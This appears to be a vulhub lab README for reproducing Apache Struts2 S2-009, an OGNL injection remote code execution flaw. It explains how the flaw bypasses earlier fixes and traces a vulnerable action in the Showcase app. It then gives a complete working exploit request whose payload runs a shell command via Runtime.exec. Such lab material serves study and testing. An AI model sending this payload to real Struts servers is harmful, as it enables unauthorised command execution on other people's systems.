 # S2-009 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.1.1

Details: http://struts.apache.org/docs/s2-009.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

> This vulnerability is derived from s2-003, s2-005. If you want to understand the principle of the vulnerability, you need to read the instructions of s2-005: https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

[Struts2 vulnerability analysis](https://www.t00ls.net/viewthread.php?tid=21197), as mentioned in the article, the method of introducing OGNL may not only appear in this vulnerability, but may also appear in other Java applications.

Struts2's repair for s2-003 is prohibit `#`, so s2-005 is using the code `\u0023` or `\43` bypass the prohibition; then s2-005's repair is forbidden `\` and others special symbols that prevent users submit backslashes.

However, if a parameter `example` is accepted in the current action, this parameter will be sent to the OGNL expression. So, we can put the OGNL expression code in the `example` parameter and then execute it by `/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`, then bypass defense of special characters such as `#`, `\`.

## Exploit

The environment is a struts2 "feature display" website named `Struts Showcase`. We need find an action that accepts the parameter, and type is string.

First decompress `S2-009.war`. We can see that source code is in the `WEB-INF/src` directory, I generally look for ajax related code.

Found one in`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`:

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

The code is simple, it accepts the name parameter and calls setName to assign it to the private property `this.name`, which is in line with our requirement. Then we go to `WEB-INF/src/java/struts-ajax.xml` to see the URL routing setting:

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

We can see `name=example5`, so access the controller by visiting `http://your-ip:8080/ajax/example5.action`. Then put the OGNL exploit code in the name parameter and access the URL:

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

The POC don't have display, so we use `touch /tmp/success` command, and we found that the `success` file has been created to prove that expliot succeeded.

![](1.png)
